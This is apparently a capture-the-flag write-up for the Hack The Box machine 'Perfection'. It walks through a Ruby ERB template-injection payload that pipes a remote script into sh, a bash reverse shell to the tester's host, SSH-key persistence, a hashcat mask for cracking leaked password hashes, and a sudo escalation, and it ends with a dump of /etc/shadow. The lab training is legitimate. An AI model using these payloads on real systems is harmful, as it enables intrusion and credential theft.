



## Summary

The box started with a `Calculate your weighted grade` calculator running on `WEBrick`. By searching for `Local File Inclusion (LFI)` it is possible to receive an `error message` which gives the hint to the `Ruby Sinatra framework` running on `localhost`. The application itself is vulnerable to `Server-Side Template Injection (SSTI)` but requires a `newline bypass` to execute. After gaining foothold a `sqlite3` database can be found inside a `Migration` folder in the `home directory` of `susan`. The user got an `email` which pointed to the creation of either a `custom wordlist` or a `custom cracking rule`. After cracking the hash `privilege escalation` to `root` can be achieved by simply using the `sudo ALL:ALL` privileges of `susan`.

## Table of Contents

- [Reconnaissance](#reconnaissance)
	- [Port Scanning](#port-scanning)
	- [Enumeration of Port 80/TCP](#enumeration-of-port-80tcp)
- [Foothold](#foothold)
	- [Newline Bypass and Server-Side Template Injection](#newline-bypass-and-server-side-template-injection)
- [Persistence](#persistence)
- [user.txt](#usertxt)
- [Enumeration](#enumeration)
- [Custom Wordlist](#custom-wordlist)
- [Custom Cracking Rule](#custom-cracking-rule)
- [Cracking the Hash](#cracking-the-hash)
- [Privilege Escalation](#privilege-escalation)
- [root.txt](#roottxt)
- [Post Exploitation](#post-exploitation)

## Reconnaissance

### Port Scanning

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.254.21
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 14:13 EST
Nmap scan report for 10.129.254.21
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.19 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.254.21
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 14:13 EST
Nmap scan report for 10.129.254.21
Host is up (0.053s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.02 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.254.21
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 14:15 EST
Nmap scan report for perfection.htb (10.129.254.21)
Host is up (0.085s latency).
Not shown: 999 closed udp ports (port-unreach)
PORT   STATE         SERVICE VERSION
68/udp open|filtered dhcpc

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1142.61 seconds
```

### Enumeration of Port 80/TCP

- [http://10.129.254.21/](http://10.129.254.21/)

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://10.129.254.21/
http://10.129.254.21/ [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx, WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)], IP[10.129.254.21], PoweredBy[WEBrick], Ruby[3.0.2], Script, Title[Weighted Grade Calculator], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block]
```

The box had a `Calculate your weighted grade` calculator.

- [http://10.129.254.21/weighted-grade](http://10.129.254.21/weighted-grade)



We found the version of `WEBrick` on the `bottom` of the `website`.


We also tried `Local File Inclusion (LFI)`.

```c
http://10.129.254.21/../../../../../etc/passwd
```

Which resulted in the following error message.



We checked the `image link` which gave us information about the `Ruby Sinatra Framework` running on a local listener.

```c
http://127.0.0.1:3000/__sinatra__/404.png
```

## Foothold

### Newline Bypass and Server-Side Template Injection

`Yeeb` figured out that the application was vulnerable to `Server-Side Template Injection (SSTI)` which could be achieved by using a `newline bypass (\n)`.

- [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md#bypass-with-backslash-newline](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md#bypass-with-backslash-newline)

#### Payload

```c
<%= system('curl 10.10.16.6/x | sh') %>
```

#### URL Encoded Payload

```c
%3c%25%3d%20%73%79%73%74%65%6d%28%27%63%75%72%6c%20%31%30%2e%31%30%2e%31%36%2e%36%2f%78%20%7c%20%73%68%27%29%20%25%3e
```

#### Modified Request

```c
POST /weighted-grade-calc HTTP/1.1
Host: 10.129.254.21
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 288
Origin: http://10.129.254.21
DNT: 1
Connection: close
Referer: http://10.129.254.21/weighted-grade
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

category1=Foon
%3c%25%3d%20%73%79%73%74%65%6d%28%27%63%75%72%6c%20%31%30%2e%31%30%2e%31%36%2e%36%2f%78%20%7c%20%73%68%27%29%20%25%3e&grade1=1&weight1=20&category2=Foo&grade2=1&weight2=20&category3=Foo&grade3=1&weight3=20&category4=Foo&grade4=1&weight4=20&category5=Foo&grade5=1&weight5=20
```

- Addition: For a newline bypass you could also try to use `%0a` before payload, which is newline URL encoded character



```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Perfection/serve]
└─$ cat x 
bash -c 'exec bash -i >& /dev/tcp/10.10.16.6/9001 0>&1'
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Perfection/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.254.21 - - [02/Mar/2024 14:45:31] "GET /x HTTP/1.1" 200 -
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Perfection/serve]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.6] from (UNKNOWN) [10.129.254.21] 52700
bash: cannot set terminal process group (973): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$
```

## Persistence

```c
susan@perfection:~/ruby_app$ cd /home/susan
cd /home/susan
```

```c
susan@perfection:~$ mkdir .ssh
mkdir .ssh
```

```c
susan@perfection:~$ cd .ssh
cd .ssh
```

```c
susan@perfection:~/.ssh$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDAiZ0BuXmspO/KEZqHsGB6jfgR9MxK9uRqSInr+uEitc/Qgg6UjMx7acdim1oMazprDLSHnYGf/SCA8C2/G6sEwTmMzRVlLc0BY4nOa01oi7j1AUDZPu1O8tbPLZSTaxaTPeKLlVjmp6isdiwvFcIvcvfo9TvKUK4S5QXnIPAdEv/B+glmiOsZS8QZiPpkSlhvoW1zXkfSemwDrhyiFt44UgV92ji3du52yck1AJ6/XIBs/jODUod/wZdjsxLTSv4AhyplLQno68rNU7+fXduO6jnaJQ9ijz8B9KHSdzvn67NWiqZoJoUKJvUnuHtjP5IiXlvfu+VkhtKnR1tEiJUD5iCvfodvAvWmO4QTUgVX8YNY4wWJCs4Pwxg8N64bdsGxdkK4FwcBSMt/K1nkGxUXDEtX1pZpd1UFJJmxycVJCRu9cdr/tBl89/Bx3iYlfaPdr8cgZO5kC8I/r9KPI/hkPQk19JLg4+A/w4hysGGyHM4NZRUVmRHzlJMfdkXKjywHHMAEhthmPmAU84LLbl74BlRoj4cY245QviCIx9JbPtREbn/y1QIbPkExzqaOZbt9W4X8vuFybj5qqHb0P8DXGon91ISIhyuGB52B3XW6IoogYtYdS4HvCJmPjitfPwHWkNTqdZzOfMIAfYIuwwZkxp6Ha8S2xNrpf0hHYM5syQ==' > authorized_keys
<fYIuwwZkxp6Ha8S2xNrpf0hHYM5syQ==' > authorized_keys
```

```c
┌──(kali㉿kali)-[~]
└─$ ssh susan@perfection.htb
The authenticity of host 'perfection.htb (10.129.254.21)' can't be established.
ED25519 key fingerprint is SHA256:Wtv7NKgGLpeIk/fWBeL2EmYo61eHT7hcltaFwt3YGrI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'perfection.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-97-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Sat Mar  2 07:36:22 PM UTC 2024

  System load:           1.22265625
  Usage of /:            67.1% of 5.80GB
  Memory usage:          9%
  Swap usage:            0%
  Processes:             217
  Users logged in:       0
  IPv4 address for eth0: 10.129.254.21
  IPv6 address for eth0: dead:beef::250:56ff:fe96:64b2


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

4 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


You have mail.
susan@perfection:~$
```

## user.txt

```c
susan@perfection:~$ cat user.txt
c14264c495766792005993a437797ec2
```

## Enumeration

```c
susan@perfection:~$ id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

```c
susan@perfection:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
susan:x:1001:1001:Susan Miller,,,:/home/susan:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Inside the `Migration` folder located in the `home directory` of `susan` we found a `sqlite3 database` which contained some `hashes`.

```c
susan@perfection:~/Migration$ strings pupilpath_credentials.db 
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

A mail in `/var/mail` gave us the hint to create either a `custom wordlist` or create a `custom cracking rule` to use with hashcat.

```c
susan@perfection:/var/mail$ cat susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

## Custom Wordlist

This was the pattern we used to add `1 to 1000000000` numbers to it.

```c
susan_nasus_
```

The script below was provided by a team member to create the wordlist.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Perfection/files]
└─$ cat wordlist.py 
#!/usr/bin/python3

names = [
    "susan",
    "tina",
    "harry",
    "david",
    "stephen"
]

with open('wordlist.txt','w') as f:

    for name in names:
        for i in range(1, 1_000_000_000):
            #print(f'{name}_{name[::-1]}_{i}')
            f.write(f'{name}_{name[::-1]}_{i}\n')
```

Which went very big very quick and crashed my box.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Perfection/files]
└─$ ls -lah
total 6.6G
drwxrwx--- 1 root vboxsf   54 Mar  2 15:02 .
drwxrwx--- 1 root vboxsf   58 Mar  2 14:32 ..
-rwxrwx--- 1 root vboxsf   65 Mar  2 14:46 hash
-rwxrwx--- 1 root vboxsf  297 Mar  2 14:59 wordlist.py
-rwxrwx--- 1 root vboxsf 6.6G Mar  2 15:12 wordlist.txt
```

## Custom Cracking Rule

`Sno0w` came into clutch which a `custom cracking rule`.

```c
susan_nasus_?d?d?d?d?d?d?d
```

## Cracking the Hash

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Perfection/files]
└─$ cat hash
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Perfection/files]
└─$ sudo john hash --wordlist=wordlist.txt --format=raw-sha256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Perfection/files]
└─$ sudo hashcat -m 1400 hash -a 3 susan_nasus_?d?d?d?d?d?d?d
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i9-10900 CPU @ 2.80GHz, 2919/5902 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Brute-Force
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Initializing backend runtime for device #1. Please be patient...
```

Both variants exhausted the given resources of my virtual machine so I was happy that `Sno0w` cracked the hash with his cracking station.

| Username | Password              |
| -------- | --------------------- |
| susan    | susan_nasus_413759210 |

## Privilege Escalation

```c
susan@perfection:~$ sudo -l
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

```c
susan@perfection:~$ sudo su
root@perfection:/home/susan#
```

## root.txt

```c
root@perfection:~# cat root.txt
a81ca5aa71df2f154affe867f898b027
```

## Post Exploitation

```c
root@perfection:~# cat /etc/shadow
root:$y$j9T$71hm.H7E.Jek01MNCWa.d0$FoTA1/EWWEDDDeMklpfTV9CmxBPoan8E0s3krRMPj2/:19490:0:99999:7:::
daemon:*:19405:0:99999:7:::
bin:*:19405:0:99999:7:::
sys:*:19405:0:99999:7:::
sync:*:19405:0:99999:7:::
games:*:19405:0:99999:7:::
man:*:19405:0:99999:7:::
lp:*:19405:0:99999:7:::
mail:*:19405:0:99999:7:::
news:*:19405:0:99999:7:::
uucp:*:19405:0:99999:7:::
proxy:*:19405:0:99999:7:::
www-data:*:19405:0:99999:7:::
backup:*:19405:0:99999:7:::
list:*:19405:0:99999:7:::
irc:*:19405:0:99999:7:::
gnats:*:19405:0:99999:7:::
nobody:*:19405:0:99999:7:::
_apt:*:19405:0:99999:7:::
systemd-network:*:19405:0:99999:7:::
systemd-resolve:*:19405:0:99999:7:::
messagebus:*:19405:0:99999:7:::
systemd-timesync:*:19405:0:99999:7:::
pollinate:*:19405:0:99999:7:::
sshd:*:19405:0:99999:7:::
syslog:*:19405:0:99999:7:::
uuidd:*:19405:0:99999:7:::
tcpdump:*:19405:0:99999:7:::
tss:*:19405:0:99999:7:::
landscape:*:19405:0:99999:7:::
fwupd-refresh:*:19405:0:99999:7:::
usbmux:*:19415:0:99999:7:::
lxd:!:19415::::::
susan:$y$j9T$lDiE.68crplrSJzmhskuH0$KC/O4ZHNz2p8OfWz1bfk9rxwhTkGdViBHgSo.2s1Ci5:19490:0:99999:7:::
_laurel:!:19657::::::
```
